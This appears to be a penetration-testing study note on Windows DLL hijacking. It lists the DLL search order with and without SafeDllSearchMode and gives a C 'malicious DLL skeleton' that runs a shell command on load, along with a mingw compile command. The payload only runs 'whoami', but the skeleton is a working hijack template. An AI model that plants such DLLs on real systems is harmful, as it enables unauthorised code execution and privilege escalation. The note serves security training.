# DLL Hijacking

* **author**:: Nathan Acks  
* **date**:: 2022-04-22

## Windows DLL Search Order

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

Note that it seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run).

* [2022-04-21 — TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](exploiting-ld-library-path.md)

## Malicious DLL Skeleton

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (on Linux!):

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```
